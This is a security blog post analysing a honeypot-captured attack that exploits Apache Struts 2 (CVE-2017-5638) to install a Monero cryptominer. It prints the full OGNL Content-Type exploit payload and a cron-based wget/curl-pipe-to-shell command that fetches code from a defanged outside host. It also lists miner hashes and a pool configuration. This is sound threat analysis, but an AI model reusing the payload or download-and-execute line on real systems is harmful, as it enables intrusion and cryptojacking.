 ```yaml
---
title: From Apache Struts to Cryptominers
description: Hackers attacking web servers, running Java, with Apache Struts 2 exploits to install cryptominers on Linux/Windows powered machines.
layout: post
permalink: from-apache-struts-to-cryptominer
image: "img/apache_struts_cryptominer.png"
tags: cyber
---
```

Remember Equifax hack and data of millions being stolen? Then you should also remember the Apache Struts 2 vulnerability, used during that attack. This sounds like an old news, but it seems to be exploited even to the day of this post. Someone is attacking web servers successfully and installs cryptominers, adding victims to a Monero pool.

## Stage #1. Apache Struts 2 vulnerability (CVE-2017-5638).

For those who doesn't know (or need a refresher) what is `CVE-2017-5638`; this is a vulnerability found in Apache Struts leading to RCE (remote code execution). Attacker has to send a crafted request to upload a file to the vulnerable server, injecting malicious code in the `Content-Type` header. 

For more details, check [this nice article from TrendMicro](https://blog.trendmicro.com/trendlabs-security-intelligence/cve-2017-5638-apache-struts-vulnerability-remote-code-execution/ "Apache Struts 2").

{% include adsense.html %}

In my case, one of the honeypots mimicking Apache Tomcat got an interesting HTTP request (see below).

```python
GET /images/upload HTTP/1.1
Host: <REDACTED>
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh\n*/19 * * * * curl hXXp://5.188.87[.]12/icons/logo.jpg|sh" | crontab -;wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
X-Forwarded-For: 5.188.10[.]251
```

The extracted bash command looks like this:

```bash
echo "*/20 * * * * wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh\n*/19 * * * * curl hXXp://5.188.87[.]12/icons/logo.jpg|sh" \
| crontab -;wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh
```

As you already noticed, the stage 1 of this attack is following next steps:

- Checks what type of OS is running on exploited server (Linux or Windows);
    - _Looks like, attackers are trying their against Windows boxes, in case Linux tools are installed_;
- Creates 2 cronjobs, which are running every 19th and 20th minutes;
    - _This is malware's persistence mechanism;_
    - _Every time it downloads `logo.jpg` file and executes it as shell script;_
    - _I think attackers messed up here and instead of using 2 different IPs, in case one goes down, used same one (5.188.87[.]12) everywhere;_
- Downloads `logo.jpg` file using `wget` command and executes the file;



## Stage #2. The pseudo-JPG file.

Stage 2 of this attack is execution of `logo.jpg` as a shell script. It is meant to look for other cryptominers running on the system and terminating those processes (_removing old versions or eliminating competitors?_).

[ ![Stage 2. Terminating processes](../img/miner_shell_script_1.png){:.post_image} ](../img/miner_shell_script_1.png)

Once other miners have been stopped, there is kind of a MUTEX check implemented. Malware checks if none of specified files are used by any process on the system; then downloads Monero miner and it's configuration file `kworker.conf`.

[ ![Stage 2. MUTEX checks. Monero Miner download](../img/miner_shell_script_2.png){:.post_image} ](../img/miner_shell_script_2.png)

{% include adsense2.html %}

There are 2 available versions of cryptominer and on of them is dropped if `AES-NI` instructions set is not supported by the processor:

```bash
cat /proc/cpuinfo|grep aes>/dev/null
```

## Stage #3. Cryptominer.

As mentioned above, malicious shell script drops one of the two available versions of `cpuminer 2.3.3`, one for `AES-NI` able processors and for those without support. The version and build time can be found by running `strings` tool against the binaries.

[ ![Stage 3. cpuminer 2.3.3](../img/cpuminer_strings.png){:.post_image} ](../img/cpuminer_strings.png)

Below are the checksums of the binaries, which were already uploaded on VirusTotal, long time before the attack.

```bash
MD5:    c7500149e5ae8f34ffd482057023ab41  atd_1
MD5:    54b0f140da40e5713377f4d4a8f143ad  atd_2
SHA256: 9359f7e7b1dd0f4ce4a2c52fe611c981a3dd7a17f935862e3ce9acb5f2df8ced  atd_1
SHA256: f4864b3793c93de50b953e9751dc22e03fa0333ae6856d8d153be9018da6d911  atd_2
```

Configuration file is saved in `wcubpiztlk.conf` and contains information like pool address, user name and the algorithm used.

```json
{
    "url" : "stratum+tcp://158.69.25[.]77:80",
    "user" : "49mQCzecsC6TS1sNBj5XQX4dNG8MESvLGLPHYJLKohVCQivAB5jJw2xHokTpjtSfE3D8m2U3JjDGEWJMYLrN216CM3dRpBt",
    "pass" : "x",
    "algo" : "cryptonight",
    "quiet" : true
}
```

## Thoughts. Conclusion.

Based on available information on the Internet, 158.69.25[.]77 points to `ca[.]minexmr[.]com`. This particular server is situated in Canada. Knowing that reporting server should be as close to the miners (_in our case victims_), I assume that the majority of targets are planned to be in US and Canada, because using an European server for a victim based in US could increase the _loses_ (a.k.a expired shares).

[ ![MineXMR Servers](../img/miner_servers.png){:.post_image} ](../img/miner_servers.png)

[ ![Miners Profit](../img/miner_profit.png){:.post_image} ](../img/miner_profit.png)

Even if CVE-2017-5638 was fixed relatively fast, attackers had success exploiting this for another year or so. This earned them 314.485 XMR (~ $15.286) *at least*.

As a conclusion, I would say PATCH! PATCH! and PATCH! This is the easiest and *cheapest* way to stay mitigate a a big part of security risks.

{% include adsense.html %}